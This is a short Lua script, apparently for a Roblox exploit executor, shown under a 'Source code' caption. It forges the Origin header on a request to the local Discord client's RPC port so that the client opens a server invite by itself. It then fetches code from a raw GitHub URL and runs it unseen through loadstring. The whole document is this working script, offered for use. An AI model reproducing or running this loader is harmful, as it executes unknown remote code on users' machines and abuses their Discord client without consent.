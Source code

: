 local request = (syn and syn.request) or (http and http.request) or http_request

if request then
	request(
		{
			Url = "http://127.0.0.1:6463/rpc?v=1",
			Method = "POST",
			Headers = {
				["Content-Type"] = "application/json",
				["Origin"] = "https://discord.com"
			},
			Body = game:GetService("HttpService"):JSONEncode(
			{
				cmd = "INVITE_BROWSER",
				args = {code = "sdCSmXRjuX"},
				nonce = game:GetService("HttpService"):GenerateGUID(false)
			}
			)
		}
	)
end

loadstring(game:HttpGet(('https://raw.githubusercontent.com/cool83birdcarfly02six/ugyadui829vc/main/README.md'),true))()
